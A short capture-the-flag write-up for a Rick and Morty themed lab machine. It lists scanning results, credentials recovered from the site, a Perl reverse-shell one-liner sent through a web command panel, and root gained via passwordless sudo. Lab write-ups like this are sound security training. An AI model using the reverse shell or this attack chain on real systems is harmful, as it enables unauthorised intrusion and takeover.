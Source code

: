 # Pickle-Rick.

> This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

IP : `10.10.71.65`.

nmap scan [results](/nmap).

Open ports : `20:ssh`, 	`80:http`.

Username found : `R1ckRul3s`. (Requires public key to login via `ssh`, can't use hydra).

nitko scan [result](/nikto).

Gobuster [result](/gobuster).

Found directories through Gobuster : 
```
/.hta 
/.htaccess 
/.htpasswd 
/assets 
/index.html 
/robots.txt 
/server-status 
/login.php 
```
`/robots.txt` had a string : `Wubbalubbadubdub`.

This turned out to be the password for the username found!

Got a command panel in `portal.php`.

To get a reverse shell we use a perl command : 
```
perl -e 'use Socket;$i="<your ip>";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Got shell access!

Found answers to Q1, Q2 can be found in `/home/rick`.

`sudo -l` gave us `(ALL) NOPASSWD: ALL` result, could log in as root without password.

got the 3rd ingredient!
